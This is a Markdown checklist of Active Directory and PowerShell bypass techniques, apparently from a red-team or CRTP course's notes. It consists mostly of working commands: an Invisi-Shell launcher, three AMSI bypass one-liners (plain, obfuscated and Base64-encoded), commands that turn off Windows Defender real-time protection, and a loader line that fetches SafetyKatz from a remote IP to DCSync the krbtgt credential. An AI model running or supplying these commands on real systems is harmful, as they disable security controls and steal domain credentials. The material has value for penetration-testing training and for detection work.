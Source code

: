 ```yaml
---
description: Some AMSI and Powershell Bypass Checklists
---
```


# AD: Bypass

### Bypassing PowerShell Security

Using InviShell - https://github.com/OmerYa/Invisi-Shell

{% code overflow="wrap" %}
```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```
{% endcode %}

### AMSI Bypass

Detection: [https://github.com/RythmStick/AMSITrigger](https://github.com/RythmStick/AMSITrigger)

{% tabs %}
{% tab title="2023" %}
{% code overflow="wrap" %}
```powershell
$a='si';$b='Am';$Ref=[Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils'-f $b,$a)); $z=$Ref.GetField(('am{0}InitFailed'-f$a),'NonPublic,Static');$z.SetValue($null,$true)
```
{% endcode %}
{% endtab %}

{% tab title="CRTP" %}
{% code overflow="wrap" %}
```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
{% endcode %}
{% endtab %}

{% tab title="Base64" %}
{% code overflow="wrap" %}
```powershell
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Disable Windows Defender (as Administrator)

{% code overflow="wrap" %}
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -DisableRealtimeMonitoring $true
```
{% endcode %}

### OPSEC with Loader

{% code overflow="wrap" %}
```powershell
C:\AD\Tools\Loader.exe -path http://172.16.100.67/SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```
{% endcode %}
